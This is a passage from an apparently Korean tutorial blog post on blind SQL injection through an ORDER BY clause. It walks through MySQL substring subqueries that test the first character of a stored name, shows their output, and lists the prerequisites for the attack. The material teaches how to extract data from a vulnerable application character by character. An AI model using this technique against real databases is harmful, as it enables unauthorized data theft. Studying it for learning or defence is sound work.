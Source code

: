 좀 더 위 쿼리를 분석하자면,

substring을 통해 one 테이블의 name 컬럼의 첫 번째 값의 첫 글자를 출력한다.

```SQL
mysql> select substring((select name from one limit 1),1,1);
+-----------------------------------------------+
| substring((select name from one limit 1),1,1) |
+-----------------------------------------------+
| p                                             |
+-----------------------------------------------+
1 row in set (0.00 sec)
```

이후 그 값이 p 가 맞다면, 1을 레코드 수에 맞게 출력하게 된다. (총 5번)

```SQL
mysql> select 1 from one where (select substring((select name from one limit 1),1,1)='p');
+---+
| 1 |
+---+
| 1 |
| 1 |
| 1 |
| 1 |
| 1 |
+---+
5 rows in set (0.00 sec)
```

p 값이 아닐 경우 false인 empty를 출력하기 때문에 order by 절에서 true로 표시된다.

```SQL
mysql> select 1 from one where (select substring((select name from one limit 1),1,1)='a');
Empty set (0.00 sec)
```

이렇게 다음 Blind SQL Injection을 통해 데이터를 출력 시킬 수 있었다.
order by를 통해 SQL Injection을 하기 위해 가장 중요한건
1. 파라미터를 통해 쿼리를 입력할 수 있는가?
2. 단일행, 다중행의 내용을 이해하고 있는지?
3. Blind SQL Injection을 할 수 있는가?

이정도가 아닐까 싶다. 이상입니다.
